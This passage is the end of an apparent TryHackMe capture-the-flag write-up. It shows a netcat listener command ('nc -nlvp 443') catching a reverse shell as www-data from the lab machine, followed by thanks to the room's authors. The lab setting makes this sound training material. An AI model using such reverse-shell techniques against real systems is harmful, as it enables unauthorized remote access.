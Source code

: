 Browsing to the folder we see the file is there:

![jellyfish-assets+1](/assets/images/2021-04-27-21-58-35.png)

Switching to a waiting netcat listener we have our initial shell connected:

```text
┌──(root💀kali)-[/home/kali]
└─# nc -nlvp 443   
listening on [any] 443 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.245.50] 50230
bash: cannot set terminal process group (981): Inappropriate ioctl for device
bash: no job control in this shell
www-data@petshop:/var/www/monitorr/assets/data/usrimg$
```

I hope you enjoyed this room as much as I did. And many thanks to [TryHackMe](https://tryhackme.com/) and [Muiri](https://tryhackme.com/p/MuirlandOracle) for creating it.

We are all done. See you next time.
